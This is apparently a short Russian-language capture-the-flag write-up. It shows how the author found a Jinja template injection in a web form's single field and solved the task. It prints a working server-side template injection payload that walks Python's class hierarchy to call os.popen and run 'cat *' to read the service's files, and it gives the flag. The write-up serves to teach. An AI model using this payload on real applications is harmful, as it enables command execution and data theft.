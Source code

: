 Заходим на сайт, видим что здесь всего одно поле. Пытаемся напихать внего кучу разного типа инъекций и т.д., чтобы понять есть ли какая-либо уязвимость.
Если вам повезло и вы знаете про jinja инъекции или вы смогли их нагуглить, то вы увидите, что вписав в поле **{{ что-то }}**, то **что-то** исполнится как питоновский код.
Гуглим, каким образом можно прочитать файлы с помощью питоновских объектов и как до них добраться через jinja инъекцию и формируем строчку запроса, которая всё сделает.

У меня получилось вот так:
```
{{ ''['__class__']['__mro__'][1]['__subclasses__']()[182]()["_module"]["__builtins__"]['__import__']('os')['popen']("cat *")['read']() }}
```

Смотрим полученный вывод:
<img src="out.png"/>

И видим в коде сервиса, что во-первых, алгоритм оказывается намного сложнее чем в условии таска, и что существует некая переменная **SECRET_FLAG** в которой находится флаг.

> Флаг: surctf_jinja_jinja_ninja_ninja
